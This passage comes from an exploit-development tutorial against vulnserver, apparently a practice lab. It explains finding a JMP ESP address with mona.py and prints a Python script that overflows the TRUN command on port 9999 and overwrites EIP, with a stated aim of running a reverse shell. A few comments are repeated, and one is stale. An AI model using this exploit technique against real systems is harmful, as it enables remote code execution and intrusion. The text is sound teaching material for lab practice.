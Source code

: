 ```python
# Restartthe app, then run the script. Now the ESP value becomes CCCCC... just as explained in line 18 step 13. And the EIP value is BBBB.
# We hav full control over the program!.
```
{% endcode %}

## Step 3

Making the data do something else.

At this point of controlling the ESP value, we want to make our EIP or Instruction Pointer use some location in the code that tells the program to "JMP" over to the ESP register and execute the code (our reverse shell) thats in that data/address. So we are looking for a "JMP esp" instruction.

We can use mona.py for this. In immunity debugger, type the cmd in the below text entry box.

`!mona jmp -r esp` - looks for jmp esp in the kernel.

Mona displays some results, we can go for the 2nd to the last result since it has "ASCII representation" and all protection values are "false", right click and "copy to clipboard" the address.

Now we can change our "new\_eip" value into that memory address value.

Note this wont work because its a memory address to the binary, meaning we have to convert it to the bytes encoding with the "little endian" format using the python "struct" module.

Our python code will now look like this...

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/python
import socket
import struct # 11 - import struct.

# 1 - we establish a connection to the victim pc.
s = socket.socket()
s.connect(("$ip", 9999))

total_length = 2984 # 2 - we will be working with this value.
offset = 2003 # 6 - this is our Offset point/value.
new_eip = struct.pack("<I", 0x<our copied memory address value>) # 14 - this becomes the new EIP value, which executes what the ESP says. We can test this by setting a breakpoint in the debugger.

# 3 - we use a list to orderly arrange each parts of our payload.
# 4 - in python3, when we are communicating with a socket, we have to send all the data in bytes ie, <b"">
payload = [
    b"TRUN /.:/", # 5 - copy the exact value used by .spk script (in the 2nd Panel).
    b"A" * offset, # 10 - sends exactly 2003 A's to the vulnserver app.
    new_eip, # 12 - the new EIP value prints exactly after the 2003 A's, which means we have used up 2003 + 4 out of 2984bytes.
    b"C" * (total_length - offset - len(new_eip)) # 13 - this is the data/address that gets executed after the EIP ie, ESP. Meaning this is the spot we wil put our shell code, since this is the new ESP value, that points to what the EIP will execute next, ie, our shell code. But in this case we just pass in a bunch of C's to execute for testing purpose.
]
# 7 - putting together our payload/
payload = b"".join(payload) # 8 - joinging the payload with a byte string.

s.send(payload) # 9 - send the payload. 1st RUN HERE.
s.close()


# Restartthe app, then run the script. Now the ESP value becomes CCCCC... just as explained in line 18 step 13. And the EIP value is BBBB.
# We hav full control over the program!.

```
